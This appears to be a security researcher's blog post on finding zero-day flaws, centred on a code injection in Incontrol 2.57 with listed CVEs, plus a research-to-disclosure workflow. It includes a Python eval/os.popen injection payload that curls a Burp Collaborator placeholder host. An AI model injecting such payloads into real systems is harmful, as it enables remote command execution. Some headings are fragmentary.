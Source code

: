 ```yaml
---
layout: post
title: "Incontrol 2.57 Exploitation Chain: Web User to NT AUTHORITY SYSTEM"
description: "Today, we will explore a crucial topic in the world of offensive security: zero-day vulnerabilities."
date:   2024-11-03 11:01:35 +0300
image:  '/images/713.jpg'
tags:   [exploitation, cve]
---
```


Hello, hackers! Today, we will explore a crucial topic

#### Zero
A

[CVE-2023-2043] and [CVE-2023-2524]

### How to Find Zero-Day Vulnerabilities and How I Discovered a Critical Code Injection Vulnerability
#### Step-by-Step Process:
1. Software Enumeration: Research and identify promising software.
2. Existing Vulnerability Check: Consult databases like exploit-db and NIST to ensure the chosen software does not have cataloged vulnerabilities.
3. Environment Setup and Software Installation: Set up the testing environment on a virtual machine and install the software.
4. Testing Until Vulnerability Identification: Conduct thorough tests on the application to detect anomalous behaviors.
5. Global Technology Usage Verification: Evaluate the technological implementation to understand the potential impact of the vulnerability.
6. Report/PoC Creation: Document the vulnerability in detail and create a Proof of Concept (PoC).
7. Submission: Report the vulnerability to the developer or the responsible platform.

![]({{site.baseurl}}/images/700.jpg)

* GitHub:
Use specific tags and dorks to find relevant software.

![]({{site.baseurl}}/images/701.jpg)


* Mitre CVE List:
Search for types of vulnerabilities or any other keyword.
https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=software

![]({{site.baseurl}}/images/702.jpg)


> Code injection occurs when an attacker can execute arbitrary commands on the system by injecting them into a vulnerable program. This vulnerability arises when an application transmits unsafe user data (e.g., forms, cookies, and HTTP headers) to a system shell. Common scenarios include passing unsanitized input directly to system commands.
>

#### Exploitation Example:
![]({{site.baseurl}}/images/703.jpg)

To identify the vulnerability, I used a payload that imported the os library and executed a curl command pointing to my Burp Collaborator. The payload used was:

{% highlight js %}
    eval(compile("""for x in range(1):\n import os\n os.popen(r'curl http://BURPCOLLABORATOR').read()""",'','single'))
{% endhighlight %}

I injected this payload into the suspicious parameter. Upon checking the Burp Collaborator, I confirmed the receipt of the request, validating the existence of the vulnerability.